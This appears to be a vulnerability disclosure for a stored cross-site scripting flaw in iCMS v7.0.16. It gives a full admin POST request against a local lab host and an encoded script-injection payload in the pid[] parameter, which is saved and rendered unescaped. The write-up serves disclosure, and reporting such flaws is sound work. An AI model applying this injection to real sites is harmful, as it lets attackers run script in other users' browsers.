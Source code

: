 ## There is a Stored XSS Vulnerability in iCMS v7.0.16

The iCMS v7.0.16 has a tored XSS Vulnerability in iCMS v7.0.16

### proof

The vulnerable url is:

```
http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=9041868bvetZwR1LmSKxbAKQMzFoR6mwPIZzKQA8SVCJiuwTgSqofazrzNTgVilHb1s8CJI1dK6Y7cJfayPMQO-NYT-9ClZ_lLl3y0Q
```

The whole package is：

```
POST /iCMS-7.0.16/admincp.php?app=article&do=save&frame=iPHP&CSRF_TOKEN=8379e504fAGLz85cfRMOPsH4R93vvKD0NLoOaXhyIfh-HeRGmps6mL6iLIkVpZDAsUB7MoMgD9LmXA_NE3KixIIMJUao8-KGlt-k69c HTTP/1.1
Host: 192.168.64.2
Content-Length: 570
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.64.2
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.64.2/iCMS-7.0.16/admincp.php?app=article&do=add
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-TW;q=0.8,zh;q=0.7,zh-CN;q=0.6
Cookie: iCMS_apps_tab=apps-type-1; iCMS_ACP_sidebar_mini=0; PHPSESSID=87b0836c37ab2095ec1c01c74cbcc245; Hm_lvt_7b43330a4da4a6f4353e553988ee8a62=1611310222; Hm_lpvt_7b43330a4da4a6f4353e553988ee8a62=1611310697; bdshare_firstime=1611392444473; iCMS_tag_category_tabs=tree; iCMS_article_good_1=1611488317; iCMS_ADMIN_AUTH=650bd5cd8NWyz8fJhuzzFnbI220Kia_5w0mB-MOAB3a4aQC2SB0vf4-MPR6Rc8IkujMeH4A631iutChEDui75bvB_MLCrcGAyHPR2gYjbnjyh1kJbtQLmFntvg; iCMS_USER_AUTH=34d9c5bbxpGL7X25aZ7_vNOzlQAYlerPnwRGOLwXFqwhjmcYJsN4lTFBjo3P7pqIq5LHZpJ7Hr9FquG1hdUBrV3NsxlIugaqhw4MyuoBDlvxgYWCtijkRqLtQPbQO1wC8n-93m1ObSrI0lsSiNs1aTLm5UMl0pS-YCFaMQhlwez-7MkCaGgxDeb2CRNuMmsQK1sl-eVdw_6aDWztyQkasA57sy8CXAYawiilmfN2fDdB1Js0tFvUvzM4kLShqy0Q06iSYe07vpvXeVfwO0QNdQF-Ssrg0DnZAB_HiiBfSzGmLTHSCOXnr-wjMk_g4LghbNjXCc0B6FQgjqAfAMLvh2UOOeUYdHiNAuy8WqzotiHTKvpvX0d3JUkVR122OiecRP2It7HfZZzRKinhzEHPrI3eHHYDfuia1naYFZ7zilhL9YmRNCARQ63Utu0YQYOOz7U0WQ3FeNPHiJYzx3w4F7ucBAsmCwiOTqos-J8GwHswr-pmEJQ1EKzpQoB_RqG0kK_z1wiUa6X_mTSIuXJKo35yPmbj; iCMS_USER_TOKEN=16121103b541c002ddf321777821221d9f784cef; iCMS_userid=9a19953azOe4BTrwyNfGp5jHStxEJ0IpkHOFnBmJCa23ONwOhQ; iCMS_nickname=c882806dOWG3Q6CdzP1YS1ZaVicJqujfV7eGNT8Ij3nRgpzs
Connection: close

_cid=&_scid=&_tags=&_pid=&_data_id=&article_id=0&userid=1&ucid=&postype=1&REFERER=http%3A%2F%2&chapter=&markdown=0&cid=4&status=1&scid%5B%5D=4&pid%5B%5D=0&title=ffasd&stitle=fsad&source=123131231&author=&editor=iCMS&pic=fasd&mpic=&spic=&keywords=fsd&tags=asdf&description=fasd&data_id=&subtitle=fasd&autopic=1&body%5B%5D=%3Cp%3Efasd%3C%2Fp%3E&pubdate=2021-01-24+21%3A31%3A04&sortnum=1611495064&weight=1611495064&hits=0&hits_today=0&hits_yday=0&hits_week=0&hits_month=0&favorite=0&comments=0&good=0&bad=0&tpl=&clink=&url=
```

the vulnerable param is pid[], and the poc is:

```
tqj35%22%3e%3cscript%3ealert(1)%3c%2fscript%3eg6ciq
```

And every time we visit this site ,the js will execute. like:

![](pictures/cve14.png)

The reason of this Vulnerability is the "pid[]" param was saved and was directly showed in the website with no check when user open this site.

![](pictures/cve20.png)
